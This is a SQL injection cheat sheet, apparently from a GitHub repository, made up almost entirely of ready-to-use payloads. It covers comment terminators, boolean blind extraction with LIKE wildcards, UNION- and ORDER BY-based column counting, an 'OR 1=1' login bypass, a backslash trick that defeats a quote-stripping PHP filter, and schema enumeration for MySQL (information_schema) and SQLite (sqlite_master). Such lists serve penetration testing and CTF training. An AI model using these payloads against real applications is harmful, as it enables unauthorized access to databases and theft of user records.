 ### In the following queries, <'> may not work sometimes, so <\`,"> can  be tested
### To comment out the remaining code, <';#',';--',';//'> are used
### While doing sqli through urls, the above things need to be encoded specially <';#',';--',';//'>

## A brute-force approach by asking boolean questions to get some information from database
 ' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --   [It will ask whether a user with letter "a" or "A" containing in his name]
 ' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "\__a%") --	 [It will ask whether the letter is at 3rd place or NOT]
 HERE %,_ are WILDCARDS. % matches any string and _ matches only one character
 By default, LIKE is case-insensitive.
 To make a case sensitive search, use BINARY right after LIKE
 ' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --


## Finding no of columns in table
 ' UNION SELECT 1,2,3.. FROM table_name
 ' ORDER BY n  [If we get error for n, then n-1 will be no of columns]
 
## Limiting no of rows
 ' OR 1=1 LIMIT 1 --

## Special Bypassing
   <?php 
   $name = preg_replace("'","",$name);
   $pass = preg_replace("'","",$pass);
   SELECT * FROM users WHERE username='name' and password='pass'
   attack => user = \  & pass = OR 1=1 --

## For Mysql
### Finding version and databases
  ' UNION SELECT 1,@@version,database(),4,.....
### Extracting Tables from databases
  ' union select 1,group_concat(table_name),3... from information_schema.tables where table_schema=database()
### Extracting columns from databases
  ' union select 1,group_concat(column_name),3... from information_schema.columns where table_schema=database()
  ' UNION SELECT table_name, column_name, 1 FROM information_schema.columns

## For sqlite
 In sqlite sqlite_master replaces information_schema
### Extracting table names
  ' UNION SELECT name FROM sqlite_master WHERE type='table'
### Extracting column names from a table
  ' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'
